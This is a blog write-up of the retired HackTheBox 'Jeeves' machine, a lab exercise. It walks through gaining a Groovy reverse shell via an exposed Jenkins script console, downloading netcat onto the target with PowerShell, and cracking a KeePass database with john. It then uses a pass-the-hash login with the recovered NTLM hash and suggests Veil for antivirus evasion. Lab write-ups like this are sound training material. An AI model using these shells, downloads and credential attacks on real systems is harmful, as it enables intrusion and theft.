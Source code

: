```yaml
---
layout: post
title: "HackTheBox - Jeeves writeup"
subtitle: "~ Walkthrough of Jeeves machine from HackTheBox ~"
date: 2018-05-23
author: V3ded
category: CTF
tags: blog ctf pentesting hackthebox
finished: true
---
```


# Introduction
Jeeves is a medium rated machine on HackTheBox platform which got retired last weekend (18.05.2018). Core of this machine revolves around pwnage of Jenkins. Let's get to it.

<img src="/img/blog/htb-jeeves/htb-jeeves-00.png">

***

# Scanning and Enumeration 
As usual, start out with **Nmap**:
```console
root@EdgeOfNight:~# nmap -sV -T4 -sS 10.10.10.63

Starting Nmap 7.60 ( https://nmap.org ) at 2018-05-22 18:24 BST
Nmap scan report for 10.10.10.63
Host is up (0.062s latency).
Not shown: 996 filtered ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.28 seconds
```

For the sake of keeping this blogpost short, I'll ignore enumeration of port 135 and 445 as they most likely aren't part of the overall solution. 

## HTTP port 80
Upon visiting the HTTP server at port 80 we are present with somewhat custom made search engine.

<img src="/img/blog/htb-jeeves/htb-jeeves-01.png">

Afterwards, I run **Gobuster** to search for any hidden content or directories, but find none. Not much one can do from here on... A dead end!

## HTTP Port 50000

<img src="/img/blog/htb-jeeves/htb-jeeves-02.png">

Same approach using **Gobuster**.
```console
root@EdgeOfNight:~# gobuster -e -u http://10.10.10.63:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 25 

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.63:50000/
[+] Threads      : 25
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Expanded     : true
=====================================================
http://10.10.10.63:50000/askjeeves (Status: 302)
```
Fortunately for us, `/askjeeves/` exposes an unprotected Jenkins install. 

<img src="/img/blog/htb-jeeves/htb-jeeves-03.png">

This allows us to either upload a malicious .exe file through job creation or run custom commands in the Jenkins console. I chose the latter. If you however decide to stick with job creation, make sure that the files you upload are well obfuscated so that the antivirus doesn't delete them ;). I'd definitely recommend [VeilFramework](https://github.com/Veil-Framework/Veil) for this purpose.

***

# Exploitation
Navigate to the script console (*Manage Jenkins -> Script Console*) - `http://10.10.10.63:50000/askjeeves/script`. This allows us to run arbitrary GroovyScript (similar to java) commands. Doing a bit of research, I find a GroovyScript reverse shell on [GitHub](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76).

{% highlight java %}
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
{% endhighlight %}

If we rewrite the port and the host, we should be able to get a nice netcat reverse shell. 

<img src="/img/blog/htb-jeeves/htb-jeeves-04.png">

Awesome! User's hash is located at `C:\Users\kohsuke\Desktop`. Go and get it! 

# Privilege escalation
Unfortunately, we still need to escalate our privileges in order to capture all the flags. There are two main methods of doing so - cracking of .kdbx file and token impersonation (*rotten potato method*). Below, the first method will be described. 

## Keepas password manager
Doing a bit of roaming around the file system, I find an interesting .kdbx file. This file extension is associated with *Keepass password manager*. The mentiond .kdbx file can be found at `C:\Users\kohsuke\Documents\CEH.kdbx`. To transfer this file into our computer I first put **netcat** binary (in Kali: `/usr/share/windows-binaries/nc.exe`) onto the Windows system via Powershell:

{% highlight powershell %}
# Run inside the reverse shell: 
powershell -c '(new-object System.Net.WebClient).DownloadFile("http://IP/nc.exe", "C:\Windows\Temp\nc.exe")'
# OR
powershell -c 'Invoke-WebRequest "http://IP/nc.exe" -OutFile "C:\Windows\Temp\nc.exe"' 
{% endhighlight %}

>> Note: Don't forget to start a web server before you actually try to download a file.

Thanks to **netcat**, we are able to transfer the .kdbx file into our filesystem. We can then proceed to generate a hash with **keepass2john**.
```console
root@EdgeOfNight:/tmp# keepass2john CEH.kdbx 
CEH:$keepass$*2*6000*222*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
``` 

This hash can be then cracked with usual programs like **Hashcat** or **JohnTheRipper**.
```console
root@EdgeOfNight:/tmp# john --format="keepass" --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64 OpenSSL])
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)
1g 0:00:01:12 DONE (2018-05-22 19:56) 0.01371g/s 754.2p/s 754.2c/s 754.2C/s moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The master password of the Keepass manager is `moonshine1`! By installing Keepass2 (*apt-get install keepass2*), we can view the .kdbx file and see all saved up passwords.
The preview looks like this:

<img src="/img/blog/htb-jeeves/htb-jeeves-05.png">

None of these passwords are actually usable apart from *Backup stuff*.  

<img src="/img/blog/htb-jeeves/htb-jeeves-06.png">

Does this look similar - `aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00`? Yup! It is an NTLM hash which we can use for pass the hash attack! Both Metasploit's **psexec** module or **pth-winexe** can be used. 
```console
root@EdgeOfNight:~# pth-winexe -U ./Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
jeeves\administrator

```

Normally I'd end the blog here as we gained root / administrator privileges. However, retrieving the root flag is a bit tricky. This is the part where most people get frustrated, because normal directory listing doesn't yield any useful results. The flag itself is hidden inside an alternate data stream. Alternate data streams can be listed with `dir /r`:

<img src="/img/blog/htb-jeeves/htb-jeeves-07.png">

and viewed with `more < hm.txt:root.txt`:

<img src="/img/blog/htb-jeeves/htb-jeeves-08.png">

***

# Conclusion
Congratulations! At this point there's nothing left - both flags have been retrieved. If you want to view alternative methods which I didn't show (such as rotten potato), I'd highly recommend Ippsec's [video](https://www.youtube.com/watch?v=EKGBskG8APc). His content is great and I often learn many new methods from his tutorials :-) ! Thanks for reading.

~V3
